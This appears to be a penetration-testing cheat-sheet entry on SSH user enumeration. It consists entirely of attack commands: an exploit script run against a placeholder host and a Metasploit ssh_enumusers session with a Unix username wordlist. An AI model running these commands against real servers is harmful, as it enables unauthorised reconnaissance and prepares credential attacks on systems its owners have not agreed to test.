 ## == SSH user enumeration ==  
  
1)  
python ./40136.py x.x.x.x  
  
  
  
2)  
msf > use auxiliary/scanner/ssh/ssh_enumusers  
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt  
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt  
msf auxiliary(scanner/ssh/ssh_enumusers) > run